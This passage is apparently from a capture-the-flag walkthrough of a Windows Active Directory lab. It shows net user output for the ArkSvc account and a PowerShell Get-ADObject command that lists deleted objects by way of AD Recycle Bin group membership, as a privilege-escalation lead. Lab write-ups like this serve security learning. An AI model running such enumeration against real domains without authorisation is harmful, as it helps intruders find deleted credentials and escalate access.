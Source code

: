 #### Group membership of ArkSvc

```shell
net user ArkSvc
```

```shell
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 10:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
Very interesting, local group membership reveals that this user is member of `AD Recycle Bin` group, how can we take advantage of it though?

#### Retrieving deleted objects from Recycle Bin

Using hacktricks: https://github.com/ivanversluis/pentest-hacktricks/blob/master/windows/active-directory-methodology/privileged-accounts-and-token-privileges.md
i found this command below:
```powershell
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
we get all the deleted objects, lets inspect them.
```shell
CanonicalName                   : cascade.local/Deleted Objects
CN                              : Deleted Objects
Created                         : 1/9/2020 3:31:39 PM
createTimeStamp                 : 1/9/2020 3:31:39 PM
Deleted                         : True
Description                     : Default container for deleted objects
DisplayName                     :
DistinguishedName               : CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/1/1601 12:00:00 AM}
instanceType                    : 4
isCriticalSystemObject          : True
isDeleted                       : True
LastKnownParent                 :
Modified                        : 1/13/2020 1:21:17 AM
modifyTimeStamp                 : 1/13/2020 1:21:17 AM
Name                            : Deleted Objects
ObjectCategory                  : CN=Container,CN=Schema,CN=Configuration,DC=cascade,DC=local
ObjectClass                     : container
```